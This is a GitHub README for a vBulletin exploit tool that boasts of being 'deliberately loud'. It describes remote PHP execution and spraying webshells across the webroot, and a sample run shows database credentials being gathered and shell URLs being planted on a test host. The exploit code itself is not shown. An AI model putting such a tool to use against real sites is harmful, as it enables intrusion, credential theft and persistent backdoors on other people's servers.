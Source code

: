 # vBulldozer
Very loud vBulletin exploit, WIP.

Currently gives you a way to execute arbritary PHP code, and does some info-gathering. Deliberately loud as heck. 

It uses a really dumb trick (recursively trying to drop a webshell into every directory) to attempt to guarentee some form of webshell will be obtained.

I mostly wrote that as a joke, its called "equifax mode", as it could lead to you spraying like 30 webshells all over the webroot. 

This is the loudest, most unclean, exploit I think I've written in a while. It has absolutely zero stealth features.

For the writeup by zenofex on how this bug was found, see here: https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/

```
$ python vBulldozer.py https://vb.test.local/
{+} Checking https://vb.test.local/
{*} Target is vulnerable!
{+} Proceeding...
{+} Gathering some system information...
{>} PHP uname: Linux vb 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
{>} Current UID: 33
{>} Current Dir: /var/www/html
{+} Gathering database credentials...
{>} Database Host: localhost
{>} Database User: vb
{>} Database Pass: password123
{*} Got 3 paths to try...
{*} Using remote CWD: /var/www/html
{+} Checking https://vb.test.local/includes/vb5/template/bbcode/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/bbcode/hax.php
{+} Checking https://vb.test.local/includes/vb5/template/cache/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/cache/hax.php
{+} Checking 
{+} Done!
$
```

Todo:
* Maybe implement this whole gubbins for previous vb 5.x exploits - a rewrite of my old vBullshit might be in order?
* Fix bugs. 
* Add more bugs.

Licence:
WTFPL
